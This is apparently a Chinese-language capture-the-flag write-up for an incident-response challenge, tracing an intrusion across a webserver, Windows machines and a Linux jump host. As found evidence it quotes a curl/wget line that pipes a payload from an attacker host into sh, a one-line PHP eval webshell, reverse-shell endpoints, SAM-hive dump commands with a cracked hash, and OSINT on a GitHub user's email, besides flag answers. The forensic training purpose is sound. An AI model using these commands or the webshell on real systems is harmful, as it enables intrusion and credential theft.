## 应急响应1-1

登录`webserver`，在`/var/www/html`，找到`a.php`

查看`nginx`的日志,`/var/log/nginx`

```php
192.168.31.240 - - [02/May/2025:00:10:10 -0700] "POST /a.php HTTP/1.1" 200 114 "-" "Opera/9.80 (Windows NT 6.1; WOW64; U; pt) Presto/2.10.229 Version/11.62"
192.168.31.240 - - [02/May/2025:00:10:28 -0700] "POST /a.php HTTP/1.1" 200 168 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; fr-FR) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27"
```

攻击ip地址1为：

```
192.168.31.240
```

```sh
root@ubuntu:/var/www/html# stat a.php 
  File: 'a.php'
  Size: 62        	Blocks: 8          IO Block: 4096   regular file
Device: 801h/2049d	Inode: 153285      Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2025-05-16 18:04:31.537138360 -0700
Modify: 2025-05-01 21:09:51.615011437 -0700
Change: 2025-05-01 21:09:51.615011437 -0700
 Birth: -
```

## 应急响应1-2

`webserver`切换到`root`用户，查看历史命令记录`.bash_history`

root用户的命令日志



```sh
(curl -fsSL -m180 http://192.168.31.11:8084/slt||wget -T180 -q http://192.168.31.11:8084/slt)|sh
```

攻击ip地址2:

```
192.168.31.11
```

## 应急响应1-3

题目描述

题解攻击者暴力破解开始时间。
`flag为:palu{xx:xx:xx:xx}`

有几个docker容器，查看日志



```
docker logs 6801404902b1 | grep '192.168.31.240'
```

前面是正常访问，`2025:03:05:58`开始爆破



## 应急响应1-4

`windows10`的计划任务，找到flag1



```
palu{pc3_zgsfqwerlkssaw}
```

## 应急响应1-5

通过计划任务，找到`C:\Program Files (x86)\Microsoft\a.bat`



查看`a.bat`


```
palu{nizhidaowoyouduoainima}
```

## 应急响应1-6

找到数据库密码：`TOOR@123`



登录`mysql server`，找到flag3



查看订单内容，base64解码

```sh
[{"item_id":1,"item_name":"flag3palu{sqlaabbccsbwindows}","quantity":2,"price":199.99},{"item_id":3,"item_name":"英国复印","quantity":1,"price":59.99}]
```

```sh
flag3palu{sqlaabbccsbwindows}
```

## 应急响应1-7

在回收站找到，钓鱼文件是`简历.exe`


```
palu{2977CDAB8F3EE5EFDDAE61AD9F6CF203}
```





## 应急响应1-8

题目描述

提交攻击者留下的webshell-1密码  

`格式为：palu{xxxx}`

webserver的webdata容器中的木马



```
hack
```

## 应急响应1-9

题目描述

提交攻击者开放端口
`格式为：palu{xxx,xxx,xxx}`

根目录反弹 shell：192.168.31.11:1133 

PC2 传简历给 PC1 横向 192.168.31.11:8084 

webserver 的/tmp/r.sh 下存在反弹 shell：192.168.31.11:1144

```
palu{1133,1144,8084}
```

## 应急响应1-10

查看a.php



```
<?php eval($_POST["00232"]); ?>
```

## 应急响应1-11

题目描述

提交攻击者留下的隐藏账户的密码 

`flag格式为：palu{xxxx}`

将sam文件dump下来，解密

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```



`NTLM hash`

```
dbae99beb48fd9132e1cf77f4c746979
```

`wmx_love`

## 应急响应1-12

查看木马文件中的字符串

```
strings Project2.exe
```

`C:\Users\n0k4u\source\repos\Project2\x64\Debug\Project2.pdb`

找到一个id`n0k4u`，github搜索

只需要在这个URL的末尾加上`.patch`，就可以看到纯文本形式的Commit记录。而开发者的邮箱地址就在上面，如下图所示：

https://github.com/n0k4u/whatthis/commit/9fde50f0bc13cc2bf916ecc95ca912bc7f0cd114.patch



```
n0k4u@outlook.com
```

或者通过在这个接口访问

```
https://api.github.com/users/<name>/events/public
```



参考：

https://kingname.info/2024/06/02/find-email-of-github/

## 应急响应1-13

```
C:\Users\n0k4u\source\repos\Project2\x64\Debug\Project2.pdb
```

github搜索id，找到该用户

https://github.com/n0k4u/whatthis

```
日记：
2025年5月1日，我想和王美欣宝贝51出去玩，但是他说他要加班。。。。。
51还要加班？我要入侵他们公司服务器看看真假。。。。

好吧，你果然没有加班，你永远也别想抛开我，永远，我说的是永远！！！！

密语：3834239649
```

是个qq号



```
palu{loveyouibiejv}
```

## solar_Linux后门排查

题目描述

跳板机疑似被遗留后门,请排查
1、找到可疑进程完整路径
2、找到被横向的服务器IP
3、连接被横向服务器
`flag格式为 flag{完整路径|服务器IP|服务器中flag文本}`

查看进程



`/usr/lib/systemd/systemd-login`

找到外联IP



49.232.112.164

直接SSH连接



```
palu{/usr/lib/systemd/systemd-login|49.232.112.164|ZX0001S}
```
